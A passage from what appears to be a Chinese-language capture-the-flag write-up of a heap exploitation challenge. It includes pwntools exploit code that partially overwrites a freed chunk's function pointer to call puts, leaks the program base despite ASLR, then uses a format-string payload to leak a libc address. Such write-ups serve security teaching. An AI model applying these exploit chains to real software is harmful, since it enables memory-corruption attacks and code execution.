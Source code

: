 但是观察`IDA`可以发现，距离两个`free`很近的地方它执行了`call _puts`，由`ASLR`随机不会改变低十二位的特点，我们可以将最后两个字节直接改为`\x7c`，这样`free`的时候执行的就是`puts(ptr)`，根据上图，`puts`的结果应该是`'a'*0x10+'b'*0x10+addr_of_call__puts`，再减去`0x147C`，我们便可以得到程序的运行基地址

![IDA](https://cdn.novanoir.moe/img/image-20220712221215701.png)

```python
create(4, b'aa')  # 0
create(4, b'aa')  # 1
delete(1)
delete(0)
create(0x20, b'a'*0x10 + b'b'*0x08 + b'\x7C' + b'\x00')
gdb_(1, 'b deleteStr')
delete(1)  # -> call _puts
```

可以看到，成功执行了`puts(ptr)`并计算出了程序基地址

![image-20220712221540664](https://cdn.novanoir.moe/img/image-20220712221540664.png)

![image-20220712221653582](https://cdn.novanoir.moe/img/image-20220712221653582.png)

但是如何泄露`libc_base`呢？这个时候我们实际上已经可以任意地址执行了，且第一个参数是可控的，因此我们可以很容易联想到使用*格式化字符串漏洞*来输出某个函数的地址然后来找`libc_base`

我使用的`printf`是`0x150E`这里的，要注意的是在`printf`之前把`eax`置零了，因为会执行`printf+7`的`test al, al`，如果`al`不为0则`printf+34`的`je`不会跳转，接着就会执行一个`movaps`的指令要求16位对齐，否则就会段错误。而这里对齐与否是我们（至少是我）所不能决定的。

> 大概可以通过重新布局内存来达到对齐，然后打`DynELF`，但是我看他们的那个 wp 没时候没复现成功，重新`create`之后还是没有对齐。

![image-20220712221905504](https://cdn.novanoir.moe/img/image-20220712221905504.png)

至于格式化字符串怎么构造呢？在`printf`这里下个断点就知道了。

```python
create(4, b'aa')  # 0
create(4, b'aa')  # 1
delete(1)
delete(0)
create(0x20, b'a'*0x10 + b'b'*0x08 + b'\x7C' + b'\x00')
delete(1)  # -> call _puts
sh.recvuntil(b"b"*0x08)
proc_base = u64(sh.recvline()[:-1].ljust(8, b'\x00')) - 0x147C
print(hex(proc_base))
printf = proc_base + 0x150E
delete(0)

create(0x20, b'Nova%17$pNoir' + b'b'*(0x18-len(b'Nova%17$pNoir')) + p64(printf))  # 这里我已经构造好了捏
gdb_(1)
delete(1)
sh.recvuntil(b"Nova")

printf_addr = sh.recvuntil(b"Noir", drop=True)
printf_addr = int(printf_addr, 16) - 153
print(">>>", hex(printf_addr))
```
